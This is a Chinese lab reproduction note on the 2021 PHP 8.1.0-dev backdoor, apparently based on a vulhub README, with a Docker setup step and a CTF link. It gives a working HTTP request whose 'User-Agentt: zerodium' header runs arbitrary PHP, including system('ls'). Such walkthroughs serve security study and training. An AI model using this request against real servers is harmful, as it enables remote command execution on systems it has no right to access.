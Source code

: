 # PHP 8.1.0-dev 开发版本后门

> PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。



## 1.漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker compose up -d
```

环境启动后，服务运行在`http://your-ip:8080`。

## 2.漏洞复现

发送如下数据包，可见代码`var_dump(233*233);`成功执行：

记得User-Agentt最后一定要加`;` ,否则会报错

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
User-Agentt: zerodiumsystem("ls");
Connection: close
```

​    

[![img](.img/PHP 8.1.0-dev 后门远程命令执行漏洞.assets/1.png)](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/1.png)

参考链接：

https://cloud.tencent.com/developer/article/1839234

https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

## 3.相关题目

qsnctf：https://www.qsnctf.com/#/main/driving-range PHP的后门